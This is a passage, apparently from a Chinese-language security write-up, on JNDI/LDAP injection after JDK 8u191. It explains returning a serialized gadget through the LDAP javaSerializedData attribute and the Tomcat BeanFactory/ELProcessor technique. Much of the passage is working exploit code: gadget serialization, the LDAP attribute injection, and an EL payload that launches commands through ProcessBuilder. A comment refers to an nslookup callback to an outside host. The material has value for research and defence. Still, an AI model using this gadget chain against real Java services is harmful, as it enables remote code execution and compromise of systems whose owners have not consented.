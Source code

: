 ```

    ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
    ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
    objectOutputStream.writeObject(queue);
    objectOutputStream.close();
    return byteArrayOutputStream.toByteArray();

}
```



接着，添加ldap服务的attribute javaSerializedData

```
e.addAttribute("javaSerializedData", classData);
```

总结：jdk8u191后，ldap Reference加载远程代码的攻击方式不能使用，需要通过javaSerializedData返回序列化gadget方式实现

而第二种方式则是通过tomcat gadget的BeanFactory方式实施的后反序列化RCE，同样是通过javaSerializedData返回序列化gadget方式实现，但因为tomcat的gadget需要利用反序列化后的一些代码操作，也就是反序列化后对Reference对象一些方法的执行而触发的，所以，总体来说，它们之间更像是一种包含与被包含的关系。

先看一下tomcat的gadget：

```
ResourceRef resourceRef = new ResourceRef("javax.el.ELProcessor",null,"","",true,"org.apache.naming.factory.BeanFactory",null);
//redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
resourceRef.add(new StringRefAddr("forceString", "x=eval"));
//expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
resourceRef.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](" + stringBuilder.toString() + ").start()\")"));
```



可以看到，这个Reference对象的真正实例是ResourceRef，然后我们再看看“javax.naming.spi.DirectoryManager#getObjectInstance”的代码：

```
public static Object
    getObjectInstance(Object refInfo, Name name, Context nameCtx,
                      Hashtable<?,?> environment, Attributes attrs)
    throws Exception {

        ObjectFactory factory;

        ObjectFactoryBuilder builder = getObjectFactoryBuilder();
        if (builder != null) {
            // builder must return non-null factory
            factory = builder.createObjectFactory(refInfo, environment);
            if (factory instanceof DirObjectFactory) {
                return ((DirObjectFactory)factory).getObjectInstance(
                    refInfo, name, nameCtx, environment, attrs);
            } else {
                return factory.getObjectInstance(refInfo, name, nameCtx,
                    environment);
            }
        }

        // use reference if possible
        Reference ref = null;
        if (refInfo instanceof Reference) {
            ref = (Reference) refInfo;
        } else if (refInfo instanceof Referenceable) {
```